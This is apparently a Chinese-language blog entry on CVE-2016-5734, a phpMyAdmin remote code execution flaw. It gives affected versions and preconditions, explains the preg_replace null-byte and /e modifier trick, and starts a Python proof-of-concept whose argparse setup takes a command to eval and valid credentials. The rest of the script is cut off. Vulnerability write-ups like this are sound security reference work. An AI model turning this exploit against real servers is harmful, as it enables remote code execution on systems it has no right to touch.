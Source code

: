 ```yaml
---
# 当前页面内容标题
title: CVE-2016-5734
# sidebar: heading
# 当前页面图标
icon: note
# 分类
category:
    - CVE
tag:
    - phpmyadmin
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: true
# 是否将该文章添加至时间线中
timeline: true
# sidebar: heading
order: 1
date: 2023-02-02
# 浏览量
pageview: true
---
```


## 漏洞详情

| 漏洞名称        | phpMyAdmin远程代码执行漏洞（CVE-2016-5734）                  |
| --------------- | ------------------------------------------------------------ |
| <b>发布时间</b> | <b>2016年06月21日</b>                                        |
| <b>漏洞编号</b> | <b>CVE-2016-5734</b>                                         |
| <b>威胁类型</b> | <b>远程代码执行</b>                                          |
| <b>威胁级别</b> | <b>严重</b>                                                  |
| <b>利用条件</b> | <b>- 必须登录<br>- php版本小于5.4.7</b>                      |
| <b>影响版本</b> | <b>- 4.0.10.16之前4.0.x版本<br>\- 4.4.15.7之前4.4.x版本<br>\- 4.6.3之前4.6.x版本</b> |

![image-20230202211218650](/CVE-2016-5734/image-20230202211218650.png)

**漏洞概述：** 在`php5.4.7`以前，`preg_replace`函数的第一参数可以使用`\0`进行截断，而e模式的正则支持执行代码，在这种情况下，当`preg_replace`的第一个参数可控时，则会造成任意远程代码执行漏洞

## POC

```python
import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
```